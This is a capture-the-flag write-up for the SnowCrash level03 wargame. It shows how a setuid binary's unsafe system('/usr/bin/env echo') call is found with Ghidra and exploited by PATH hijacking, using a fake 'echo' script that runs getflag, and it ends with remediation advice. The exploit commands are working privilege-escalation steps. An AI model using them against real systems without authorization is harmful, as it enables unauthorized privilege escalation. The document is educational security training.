

# SnowCrash — Level03 Writeup

## Overview

This document explains how **Flag 04** was found by reverse engineering the `level03` binary using **Ghidra**, and why the underlying vulnerability matters from a security standpoint.

---

## Tools Used

- **Ghidra 10.3.3** — Open-source reverse engineering framework by the NSA
- **Java 21** — Required runtime for Ghidra (installed via SDKMAN without root privileges)
- **Bash** — For crafting and executing the exploit

---

## Step 1 — Reconnaissance

After connecting to the `level03` user via SSH, the home directory was inspected:

```bash
ls -la /home/user/level03
```

Key finding:

```
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
```

The binary has the **setuid** and **setgid** bits set, owned by `flag03`. This means that when executed, it runs with the privileges of `flag03` — the user whose flag we need to capture.

---

## Step 2 — Reverse Engineering with Ghidra

The `level03` binary was loaded into Ghidra for static analysis:

1. **New Project** → Non-Shared Project
2. **File → Import File** → selected the `level03` binary
3. Double-clicked the binary → clicked **Analyze** with default options
4. Navigated to **Symbol Tree → Functions → main**

The **Decompiler** panel on the right reconstructed the following C source code:



```c
int main(int argc, char **argv, char **envp)
{
    __gid_t __rgid;
    __uid_t __ruid;
    int iVar1;

    __rgid = getegid();
    __ruid = geteuid();
    setresgid(__rgid, __rgid, __rgid);
    setresuid(__ruid, __ruid, __ruid);
    iVar1 = system("/usr/bin/env echo Exploit me");
    return iVar1;
}
```

---

## Step 3 — Vulnerability Analysis

The critical line is:

```c
system("/usr/bin/env echo Exploit me");
```

Here is what happens step by step:

1. The binary calls `/usr/bin/env echo`
2. `env` resolves the `echo` command by searching through the directories listed in the `PATH` environment variable, **from left to right**
3. The `PATH` is **user-controlled** — it is an environment variable that any user can modify
4. The binary does **not sanitize or reset** the `PATH` before calling `system()`

This creates a classic **PATH hijacking** vulnerability. An attacker can place a malicious executable named `echo` in a directory they control, then prepend that directory to `PATH`. When the setuid binary runs, it will execute the attacker's fake `echo` **with the privileges of `flag03`**.

---

## Step 4 — Exploitation

A fake `echo` script was created that calls `getflag` (a program that prints the flag for the current effective user):

```bash
mkdir -p /tmp/exploit

cat > /tmp/exploit/echo << 'EOF'
#!/bin/bash
getflag
EOF

chmod +x /tmp/exploit/echo
```

The `PATH` was then modified to prioritize the malicious directory:

```bash
export PATH=/tmp/exploit:$PATH
```

The binary was launched:

```bash
./level03
```

Because the binary runs as `flag03` (setuid), and it calls `env echo` which resolves to our fake `/tmp/exploit/echo`, the `getflag` command executes with `flag03`'s privileges — and prints the flag.

---

## Why This Vulnerability Is Dangerous

| Risk | Explanation |
|---|---|
| **Privilege escalation** | A low-privilege user can execute arbitrary code as a higher-privilege user |
| **No code modification needed** | The attacker never touches the binary — only the environment |
| **Silent execution** | The attack leaves minimal traces in standard logs |
| **Widely applicable** | Any setuid binary calling `system()` or `exec*()` with a relative command name is potentially vulnerable |

This type of vulnerability is particularly dangerous in production environments where setuid binaries are common (e.g., `sudo`, `passwd`, custom admin tools).

---

## How to Fix It

### 1. Use absolute paths in `system()` calls

```c
// VULNERABLE
system("/usr/bin/env echo Exploit me");

// SAFE
system("/bin/echo Exploit me");
```

Never rely on `env` or any PATH resolution inside a setuid binary.

### 2. Reset `PATH` before executing any subprocess

```c
setenv("PATH", "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", 1);
system("/usr/bin/env echo Exploit me"); // Safer, but still not ideal
```

### 3. Drop privileges before calling `system()`

If elevated privileges are not needed for the subprocess, drop them first:

```c
setresuid(getuid(), getuid(), getuid());
setresgid(getgid(), getgid(), getgid());
system("echo Exploit me");
```

### 4. Avoid `system()` altogether

Prefer `execve()` with an explicit argument array, which does not invoke a shell and is not subject to shell injection or PATH manipulation:

```c
char *args[] = {"/bin/echo", "Exploit me", NULL};
execve("/bin/echo", args, NULL);
```

### 5. Use security linting tools

Tools like **checksec**, **Coverity**, or **CodeQL** can flag dangerous patterns like `system()` calls inside setuid binaries during code review.

---

## Summary

| Step | Action |
|---|---|
| Reconnaissance | Identified setuid binary owned by `flag03` |
| Reverse engineering | Used Ghidra to decompile and read the source logic |
| Vulnerability identification | Found unsafe `system("/usr/bin/env echo ...")` call |
| Exploitation | Hijacked `PATH` with a fake `echo` that calls `getflag` |
| Flag | Retrieved using `getflag` running as `flag03` |

---

*Writeup produced as part of the SnowCrash wargame — for educational purposes only.*
